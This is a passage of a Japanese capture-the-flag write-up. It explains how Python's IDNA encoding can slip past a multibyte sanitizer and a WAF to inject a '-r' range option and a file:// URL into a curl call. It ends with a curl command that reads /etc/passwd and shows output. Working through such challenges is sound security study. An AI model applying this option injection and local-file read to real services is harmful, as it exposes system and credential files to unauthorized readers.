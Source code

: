 さらにPrefixを除いたものを探すため、 `bad_chars` が含まれる入力を探すスクリプトの `if c in ensc:` を `if c in ensc and not "xn--" in ensc:` へ変更し再度実行する。
```
8252: !!
8263: ??
8264: ?!
8265: !?
9332: (1)
9333: (2)
~ 略 ~
9397: (z)
10868: ::=
10869: ==
10870: ===
```
`‼` などACEに変換した際に複数文字になるものがいくつか得られた。
これらの記号はMultibyte Characters Sanitizerにブロックされないため、URLとして利用可能なようだが、残念ながらOSコマンドインジェクションは難しそうである。

### WAFの突破
Multibyte Characters Sanitizerの突破により、 `curl` に任意のオプションを渡せる可能性があることがわかった。
ここで `curl` に渡すことでWAFの突破や外部へのファイル送信が可能となるオプションを探す。
マニュアルを見ると `-F` でファイル送信が可能であるようだが、 `encode("idna").decode()` の結果が全て小文字であることより利用できない。
小文字のオプションに絞って探すと `-r` により、バイトのRangeを指定できるようであり、 `file://` にも利用できるようだ。
manにも以下のとおりに書かれている。
```
-r, --range <range>
    (HTTP FTP SFTP FILE) Retrieve a byte range (i.e. a partial document) from  an  HTTP/1.1,  FTP  or  SFTP server or a local FILE. Ranges can be specified in a number of ways.
```
これを用いて `-r1` や `-r2` のような `-rX` の形をオプションとして渡すことができれば、 `RicSec` の先頭が読み飛ばされるのでWAFを突破できる。ここで `encode("idna").decode()` が文字列に対してどのような挙動を示すかを詳細に調査する。
```python
$ python
>>> f"{chr(168)}".encode("idna").decode()
'xn-- -ccb'
>>> f"A{chr(168)}".encode("idna").decode()
'xn--a -vub'
>>> f"B{chr(168)}".encode("idna").decode()
'xn--b -vub'
>>> f"AA{chr(168)}".encode("idna").decode()
'xn--aa -fec'
>>> f"AAA{chr(168)}".encode("idna").decode()
'xn--aaa -ywc'
>>> f"AAA{chr(168)}A".encode("idna").decode()
'xn--aaa a-hgd'
>>> f"filⓔ:///var/www/flag{chr(168)}".encode("idna").decode()
'xn--file:///var/www/flag -6wl'
```
文字列の内容にではなく長さに依存することが分かる (厳密には `chr(168)` の位置) 。
また、先頭にPrefixである `xn--` が、末尾にオプション (となる)  `-6wl` が付加されるようである。
これにより、 `filⓔ://` の前に `xn--` が付加されるため、スキームが壊れる問題が発生する。
ただし、Prefixは各サブドメインの先頭に付加される仕様であるため、以下のとおり `.` を挿入してやればスキームを壊すことなくオプションを渡すことができる。
```python
$ python
>>> f"filⓔ:///var/www/flag.{chr(168)}".encode("idna").decode()
'file:///var/www/flag.xn-- -ccb'
```
最後に問題となるのはファイル名である。
`/var/www/flag` を読み取りたいが、スキームを壊さないために挿入した `.` やPrefixである `xn--` など余計なものが付いた結果、 `var/www/flag.xn--` になってしまっている。
ここでさらに、 `file://` にクエリを付けても良いことを思い出す。
以下のとおりに実際の環境で試してみる。
```bash
$ curl file:///etc/passwd?satoki
root:x:0:0:root:/root:/bin/bash
```